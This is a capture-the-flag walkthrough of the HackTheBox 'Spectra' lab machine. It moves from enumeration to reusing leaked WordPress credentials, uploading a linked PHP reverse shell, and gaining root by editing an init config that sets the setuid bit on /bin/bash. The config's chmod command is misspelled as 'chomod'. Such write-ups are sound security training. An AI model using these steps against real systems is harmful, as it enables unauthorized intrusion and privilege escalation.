 ```yaml
---
title: "HTB - Spectra WriteUp"
publishedAt: "2021-07-02"
summary: "HackTheBox Spectra Walkthrough"
---
```


![](https://www.hackthebox.eu/storage/avatars/e679d95b5553a6927d1dc4ffe0885ea8.png)

[Spectra](https://app.hackthebox.eu/machines/Spectra) was an Easy machine

---

## Enumeration

The first thing I try is to check all the port with nmap

```bash
Nmap scan report for spectra.htb (10.10.10.229)
Host is up (0.19s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
```

So there is ssh, mysql and http ports open.
Opening the webpage we get this:

![](/images/blog/spectra/1.png)

The below links dont work, and looking at the source code we see that the links have spectra.htb as the domain name.

![](/images/blog/spectra/2.png)

so we add that in our `/etc/hosts` file

```py:/etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

10.10.10.229    spectra.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Now the page renders and we can see that its a WordPress site.

![](/images/blog/spectra/3.png)

We get 2 hidden folders by running GoBuster

```py
/main                 (Status: 301) [Size: 169] [--> http://10.10.10.229/main/]
/testing              (Status: 301) [Size: 169] [--> http://10.10.10.229/testing/]
```

![](/images/blog/spectra/4.png)

Looking at the directory listing of `/testing/` we see a **.save** file

Opening it and looking at the source code we can see the database credentials

But if try to connect to mysql with the creds we found, it doesn't work

SSH doesnt work either :(

---

## FootHold

But on the wordpress site, we see there is a post made by administrator

Trying to log into the wp-login with administrator and the password we have works!

Now that we are inside the wp admin login, we can edit a page in an inactive theme and upload a php reverse shell.

![](/images/blog/spectra/5.png)

I used [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) php reverse shell from pentestmonkey and put in my IP.

Then listen on port 1234 and then navigate to the 404 page.

We get a reverse shell!

![](/images/blog/spectra/6.png)

---

## User Flag

Now that we have a shell, I run linpeas on the box.

After going through the huge output of linpeas, there is a autologin passwd file and we can see the password

And trying to ssh into the user Katie with that password works!

we now get the user flag

![](/images/blog/spectra/7.png)

---

## Root Flag

By running `sudo -l` we see that we can run `/sbin/initctl` without the root password.

initctl starts or stops services in the `/etc/init/` folders

If we look into that folder, we find few files that can be edited by us.

we edit the `/etc/init/test.conf` file so that it looks like below

```py:/etc/init/test.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    chomod +s /bin/bash

end script
```

Now we can run this file with `sudo /sbin/initctl start test`

After the service has started, we just run `/bin/bash -p`

And we have root!

![](/images/blog/spectra/8.png)

### ***Pwned!!!***